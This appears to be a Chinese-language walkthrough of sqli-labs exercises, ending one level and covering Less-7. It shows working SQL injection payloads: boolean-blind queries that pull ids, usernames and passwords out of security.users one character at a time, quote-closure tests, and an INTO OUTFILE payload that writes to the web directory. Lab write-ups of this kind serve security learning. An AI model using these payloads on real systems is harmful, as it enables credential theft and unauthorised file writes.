 id,username,password

猜测值的长度

```cobol
?id=1" and length((select group_concat(id,username,password)from security.users))=192 -- +
```

猜值的字符串

```cobol
1
?id=1" and ascii(substr((select group_concat(id,username,password)from security.users),1,1))=49 -- +
D
?id=1" and ascii(substr((select group_concat(id,username,password)from security.users),2,1))=68 -- +
```

最后就得出来了

## Less-7

### 这个题目使用布尔注入可以

进行闭合的判断

```cobol
1"))and 1=2-- +

ture 说明不是闭合

?id=1'))and 1=2-- +

false

说明是闭合
```

判断出是闭合后

直接进行布尔注入

```csharp
?id=1')) and length((select database()))=8-- +
```

### outfile

outfile是mysql通过搜索值导出到本地的一个指令

我们可以进行尝试





```swift
?id=-1')) union select 1,2,(select database()) into outfile%20 "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.txt"-- +
```
